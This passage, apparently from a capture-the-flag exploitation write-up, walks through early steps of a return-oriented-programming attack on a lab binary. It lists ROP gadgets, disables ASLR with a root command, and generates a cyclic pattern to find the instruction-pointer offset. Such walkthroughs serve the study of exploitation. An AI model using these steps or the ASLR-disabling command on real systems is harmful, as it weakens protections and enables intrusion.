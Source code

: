 ```asm
0x00000000004004e8: sub rsp, 8; mov rax, qword ptr [rip + 0x200b05]; test rax, rax; je 0x4fa; call rax; 
0x00000000004004f4: test eax, eax; je 0x4fa; call rax; 
0x00000000004004f4: test eax, eax; je 0x4fa; call rax; add rsp, 8; ret; 
0x00000000004005a7: test eax, eax; je 0x5b8; pop rbp; mov edi, 0x601010; jmp rax; 
0x00000000004005e9: test eax, eax; je 0x5f8; pop rbp; mov edi, 0x601010; jmp rax; 
0x00000000004004f3: test rax, rax; je 0x4fa; call rax; 
0x00000000004004f3: test rax, rax; je 0x4fa; call rax; add rsp, 8; ret; 
0x00000000004005a6: test rax, rax; je 0x5b8; pop rbp; mov edi, 0x601010; jmp rax; 
0x00000000004005e8: test rax, rax; je 0x5f8; pop rbp; mov edi, 0x601010; jmp rax; 
0x00000000004008e8: leave; ret; 
0x0000000000400681: nop; pop rbp; ret; 
0x00000000004004fe: ret; 

92 gadgets found                                                                                                                                                     
```

Let’s see first how exploitation would look like without ASLR. To temporary disable it, run the following command, then test:

```bash
$ sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
                                                                                                                                                            
$ ldd flux_capacitor 
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dcc000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
                                                                                                                                                            
$ ldd flux_capacitor
        linux-vdso.so.1 (0x00007ffff7fc9000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dcc000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcb000)
```

*Notice the load address for `libc.so.6 ` is now always the same each time we check!* 

Next we can generate a `0x100` bytes pattern and see where the instruction pointer gets overwritten after the buffer  overflow:

```bash
gef➤ pattern create 256
[+] Generating a pattern of 256 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaab
```
